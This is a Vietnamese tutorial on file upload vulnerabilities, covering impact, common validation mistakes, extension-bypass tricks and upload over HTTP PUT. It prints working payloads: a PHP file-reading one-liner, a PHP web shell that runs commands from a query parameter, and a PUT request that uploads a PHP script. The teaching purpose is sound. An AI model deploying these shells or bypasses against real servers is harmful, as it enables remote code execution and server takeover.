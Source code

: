 # Lỗ hổng file upload là gì?
Lỗ hổng file upload xảy ra khi máy chủ web cho phép người dùng file upload hệ thống tệp của mình mà không xác thực đầy đủ các thông tin như tên, loại, nội dung hoặc kích thước. Việc không thực thi đúng các hạn chế này có thể đồng nghĩa với việc ngay cả một chức năng tải hình ảnh cơ bản cũng có thể được sử dụng để tải lên các tệp tùy ý và tiềm ẩn nguy hiểm. Điều này thậm chí có thể bao gồm các tệp tập lệnh phía máy chủ cho phép thực thi mã từ xa.

Trong một số trường hợp, hành động file upload tự nó đã đủ để gây ra thiệt hại. Các cuộc tấn công khác có thể bao gồm một yêu cầu HTTP tiếp theo cho tệp, thường là để kích hoạt việc thực thi tệp bởi máy chủ.
# Tác động của lỗ hổng file upload là gì?
Tác động của lỗ hổng file upload thường phụ thuộc vào hai yếu tố chính:

Trang web không xác thực đúng khía cạnh nào của tệp, có thể là kích thước, loại, nội dung, v.v.

Những hạn chế nào được áp dụng cho tệp sau khi đã tải lên thành công?

Trong trường hợp xấu nhất, loại tệp không được xác thực đúng cách và cấu hình máy chủ cho phép một số loại tệp nhất định (chẳng hạn như `.php` và `.jsp`) được thực thi dưới dạng mã. Trong trường hợp này, kẻ tấn công có thể tải lên một tệp mã phía máy chủ hoạt động như một web shell, trên thực tế cấp cho chúng toàn quyền kiểm soát máy chủ.
# Các trường hợp có thể xảy ra
Trong thực tế, các công ty, tổ chức thường kiểm soát rất tốt lỗ hổng này và tự tin vào khả năng xác thực hệ thống của họ.  
Tuy vậy, khi triển khai 'block' nó thì vẫn có thể tồn tại những trường hợp có thể khiến hệ thống của bạn mắc lỗi này:

- Đơn giản nhất, bạn quên xác thực các loại tệp, nội dung, kích thước,.... của tệp được tải lên
- Bạn tạo blacklist để chặn các loại tệp nguy hiểm nhưng không xác thực những loại extensions lạ (ví dụ: .git, .heheattacker,...)
- Web server của bạn an toàn nhưng <b>không nhất quán</b> khiến attacker có thể sử dụng để <b>'path traversal'</b>
- Hệ thống của bạn bị 'thọt' dẫn đến bị bypass dễ dàng bằng các thủ thuật của attacker
# Playload
Sử dụng php để đọc filesystem:
```
<?php echo file_get_contents('/path/to/target/file'); ?>
```
web shell
```
<?php echo system($_GET['cmd']); ?>
```
Kích hoạt shell
```
GET /example/exploit.php?cmd=id HTTP/1.1
```
- [một số shell khác ở đây](https://github.com/HuyPham01/docs/tree/main/CTF/php)

# Bypass extensions
exploit.pHp == .php  
Cung cấp nhiều phần mở rộng. Tùy thuộc vào thuật toán được sử dụng để phân tích tên tệp, tệp sau đây có thể được hiểu là tệp PHP hoặc ảnh JPG:`exploit.php.jpg`  
Thêm ký tự cuối. Một số thành phần sẽ loại bỏ hoặc bỏ qua khoảng trắng, dấu chấm, v.v. ở cuối:`exploit.php.`  
Hãy thử sử dụng mã hóa URL (hoặc mã hóa URL kép) cho dấu chấm, dấu gạch chéo xuôi và dấu gạch chéo ngược. Nếu giá trị không được giải mã khi xác thực phần mở rộng tệp, nhưng sau đó được giải mã ở phía máy chủ, điều này cũng có thể cho phép bạn tải lên các tệp độc hại mà nếu không sẽ bị chặn:`exploit%2Ephp`  
Thêm dấu chấm phẩy hoặc ký tự byte rỗng được mã hóa URL trước phần mở rộng tệp. Nếu xác thực được viết bằng ngôn ngữ cấp cao như PHP hoặc Java, nhưng máy chủ xử lý tệp bằng các hàm cấp thấp hơn trong C/C++, chẳng hạn, điều này có thể gây ra sự khác biệt trong phần được coi là phần cuối của tên tệp: `exploit.asp`;.jpghoặc `exploit.asp%00.jpg`  
Hãy thử sử dụng các ký tự unicode đa byte, có thể được chuyển đổi thành byte rỗng và dấu chấm sau khi chuyển đổi hoặc chuẩn hóa unicode. Các chuỗi như `xC0 x2E`, `xC4 xAE` hoặc `xC0 xAE` có thể được dịch thành `x2E` nếu tên tệp được phân tích cú pháp dưới dạng chuỗi UTF-8, nhưng sau đó được chuyển đổi thành ký tự ASCII trước khi sử dụng trong đường dẫn.  
exploit.p.<b>php</b>hp 

# Uploading files using PUT
Điều đáng chú ý là một số máy chủ web có thể được cấu hình để hỗ trợ các yêu cầu `PUT`. Nếu phòng thủ thích hợp không có mặt, điều này có thể cung cấp một phương tiện thay thế để tải lên các tệp độc hại, ngay cả khi chức năng tải lên không có sẵn thông qua giao diện web.
```
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```
